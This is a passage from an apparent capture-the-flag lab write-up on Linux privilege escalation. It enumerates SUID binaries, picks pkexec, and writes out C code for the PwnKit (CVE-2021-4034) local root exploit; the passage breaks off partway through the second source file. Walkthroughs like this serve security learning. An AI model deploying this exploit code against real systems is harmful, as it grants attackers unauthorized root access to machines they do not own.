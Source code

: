 To this end, recall that the user `leonard` had a ton of binaries with the SUID bit set:
```console
[leonard@ip-10-10-40-207 ~]$ find / -type f -perm -04000 -ls 2>/dev/null
16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
17298702   60 -rwsr-xr-x   1 root     root        61320 Sep 30  2020 /usr/bin/ksu
17261777   32 -rwsr-xr-x   1 root     root        32096 Oct 30  2018 /usr/bin/fusermount
17512336   28 -rwsr-xr-x   1 root     root        27856 Apr  1  2020 /usr/bin/passwd
17698538   80 -rwsr-xr-x   1 root     root        78408 Aug  9  2019 /usr/bin/gpasswd
17698537   76 -rwsr-xr-x   1 root     root        73888 Aug  9  2019 /usr/bin/chage
17698541   44 -rwsr-xr-x   1 root     root        41936 Aug  9  2019 /usr/bin/newgrp
17702679  208 ---s--x---   1 root     stapusr    212080 Oct 13  2020 /usr/bin/staprun
17743302   24 -rws--x--x   1 root     root        23968 Sep 30  2020 /usr/bin/chfn
17743352   32 -rwsr-xr-x   1 root     root        32128 Sep 30  2020 /usr/bin/su
17743305   24 -rws--x--x   1 root     root        23880 Sep 30  2020 /usr/bin/chsh
17831141 2392 -rwsr-xr-x   1 root     root      2447304 Apr  1  2020 /usr/bin/Xorg
17743338   44 -rwsr-xr-x   1 root     root        44264 Sep 30  2020 /usr/bin/mount
17743356   32 -rwsr-xr-x   1 root     root        31984 Sep 30  2020 /usr/bin/umount
17812176   60 -rwsr-xr-x   1 root     root        57656 Aug  9  2019 /usr/bin/crontab
17787689   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
18382172   52 -rwsr-xr-x   1 root     root        53048 Oct 30  2018 /usr/bin/at
20386935  144 ---s--x--x   1 root     root       147336 Sep 30  2020 /usr/bin/sudo
```
After some online research, I found that there is a well-known vulnerability in the `pkexec` binary (third from the bottom). It goes by [CVE-2021-4034](https://nvd.nist.gov/vuln/detail/cve-2021-4034) and I found a useful [GitHub repository](https://github.com/berdav/CVE-2021-4034) which outlines how to use it.

For some reason, the AttackBox would not let me clone the repo as you would do normally:
```console
[leonard@ip-10-10-40-207 ~]$ git clone https://github.com/berdav/CVE-2021-4034.git
Cloning into 'CVE-2021-4034'...
fatal: unable to access 'https://github.com/berdav/CVE-2021-4034.git/': Failed connect to github.com:443; Connection timed out
```
Instead, I just manually added the necessary files. First of all, you need to create `cve-2021-4034.c`, containing the following code:
```c
#include <unistd.h>

int main(int argc, char **argv)
{
	char * const args[] = {
		NULL
	};
	char * const environ[] = {
		"pwnkit.so:.",
		"PATH=GCONV_PATH=.",
		"SHELL=/lol/i/do/not/exists",
		"CHARSET=PWNKIT",
		"GIO_USE_VFS=",
		NULL
	};
	return execve("/usr/bin/pkexec", args, environ);
}
```
Next, create `pwnkit.c` in the same directory:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv(void) {
}

void gconv_init(void *step)
```